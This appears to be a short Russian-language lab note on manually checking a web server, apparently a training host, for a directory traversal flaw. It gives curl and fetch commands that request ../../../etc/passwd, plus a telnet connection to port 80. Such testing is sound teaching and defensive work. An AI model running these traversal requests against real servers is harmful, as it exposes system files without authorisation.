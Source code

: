 
Определяем “вручную” нет ли уязвимости directory traversal

```
gate.isp.un$ curl --path-as-is http://server.corpX.un/../../../etc/passwd

gate.isp.un$ fetch -o - http://server.corpX.un/../../../etc/passwd

gate.isp.un$ telnet server.corpX.un 80
```
